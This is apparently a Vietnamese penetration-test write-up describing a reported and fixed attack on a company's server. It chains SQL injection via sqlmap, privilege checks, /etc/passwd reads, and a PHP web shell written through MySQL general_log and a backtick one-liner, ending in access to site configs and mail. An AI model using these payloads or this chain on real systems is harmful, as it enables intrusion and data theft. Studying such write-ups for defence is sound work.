 # Tôi đã hack công ty X và xâm nhập vào server như thế nào?


> Vì lý do bảo mật và riêng tư nên mình xin phép giấu tên công ty X

* Target: tập đoàn Nhật Bản có chi nhánh công ty X tại Việt Nam, tạm gọi site target là X-vietnam.com

* Bug đã được report 2 tháng trước, bên X đã tiếp nhận và fix lỗi

### 1.Xem sơ bộ site X:

<img src="site-x.png">

* Giao diện không gì đặt biệt chỉ toàn là css và js, không có form input hay param nào để truyền value vào -> khó có cơ hội để fuzz ở trên domain này, nên đem vào burp bắt request trang chủ xem có gì hot

<img src="site1-x.png">

* Có 1 endpoint xử lý api, fuzz thử thì lụm luôn acc admin

### 2.Tiến hành recon thu thập thông tin

<img src="recon-x.png">

* Kết quả trả về 9 domain chung server

### 3.Tiến hành tấn công vào target

* Bước đầu tiên thu được username, email và password của admin, password là dạng hash md5, do đặt pass độ khó cao nên không thể crack -> Failed

* Sử dụng kết quả trả về 9 domain cùng server của sublist3r ở trên, chọn 1 domain cùng server tạm gọi là site1.x-vn.com để check

* Kịch bản: 

<img src="attack-x.jpg">

* Server sẽ có thể chứa nhiều site, ta có thể thông qua site cùng server để local attack đến target chính.

<img src="site1-x.png">

* Đây là giao diện web của site1.X-vn.com

* Ở đây giao diện chỉ có 1 form login, ta có 3 case để test

```
+ Broken Authentication

+ SQL Injection

+ Missing function level access control
```

* Đưa site vào burpsuite để bắt request

<img src="burpsuite1-x.png">

* Truyền giá trị ‘ “ ‘ vào param username, ta thấy reponse trả về là thông báo lỗi SQL -> Có khả năng khai thác được SQL injection

* Công cụ tiếp theo sử dụng : Sqlmap

<img src="sqlmap-x.png">

* Kết quả trả về cho thấy đã khai thác thành công và rất nhiều database trên server và có 1 database là “ Homepage” => Có khả năng làm được theo kịch bản nếu upload được shell

* Để upload được shell bằng SQL injection thì phải cần đáp ứng 2 điều kiện:
  
  * Biết được chính xác path của server

  * User phải có quyền ghi vào thư mục

* Quá trình lên shell mysql gồm có 2 cách:

  * Cách 1 : Dùng INTO OUTFILE để ghi code vào và them file lên server
  
  * Cách 2: Ghi ra log bằng cách
  
    ```
     SET global general_log=on;



    SET global general_log_file='/var/www/html/shell.php'



    SELECT '<?php passthru($_GET[1]); ?>'
    ```

* Cả 2 cách đều cần phải biết path của server

* Để xem quyền của user hiện tại thì mình dùng lệnh –privileges trên sqlmap

<img src="root-x.png">

* Kết quả trả về như mong muốn, user hiện tại là root@localhost, và có gần như full quyền

* Tiếp theo là xem file etc/passwd của server

<img src="etc-passwd-x.png">

* Có thể đọc được file passwd, Mình đã có thử ghi file vào thư mục /tmp trên server, kết quả là thành công nhưng không lưu ảnh nên không up lên được, tuy nhiên upload lên tmp không thể truy cập vào trừ khi LFI. Vậy nên cần tìm path chính xác của server để có thể truy cập con shell mà mình up.

* Bước tiếp theo là hướng tới 1 subdomain khác trên server tạm gọi là site2.X-vietnam.com, và fuzz ra được file phpinfo() tên là test.php ở root

<img src="test.php-x.png">

* Ta thu được chính xác những thông tin cần tìm, Path chính xác của site là “/var/www/html/site2.X-vietnam.com/ “ . Mình đã thử ghi file vào nhưng không được vì user hiện tại không có quyền ghi vào thư mục này, nên bước tiếp theo để có thể ghi được là thư mục phải có quyền ghi ( ví dụ chmod 777 ). Việc cần làm ở đây là phải tìm ra thư mục đó

* Công cụ sử dụng: Dirsearch

<img src="dirsearch-x.png">

* Phát hiện ra thư mục /public/files/logs/ trên site2.X-vietnam.com và có thể access nên mạnh dạng đoán là thư mục có quyền ghi nên thử ghi file vào

<img src="burpsuite2-x.png">

* Kết quả trả về là 1 thông báo lỗi, chắc do không thực thi được hàm trong php, echo mà bị chặn thì chắc những hàm execute lệnh chắc không khả thi. Suy nghĩ một hồi, mình nhớ ra có thể sử dụng 1 bug của php, không cần gọi hàm system mà vẫn thực thi được shell

```<?=`$_GET[1]`?>```

<img src="burpsuite3-x.png">

* Response không còn trả về lỗi nữa, thử access vào con shell vừa up và run lệnh id

<img src="shell-x.png">

* Vậy là ta đã thực thi được con shell, ls đến var/www/html, thì có rất nhiều domain, bao gồm cả site chính

<img src="domains-x.png">

<img src="config-x.png">

* Có thể truy cập và get config của site, vậy là ý tưởng đã thành công , Và cuối cùng là chiếm được mail của target X

<img src="mail-x.png">

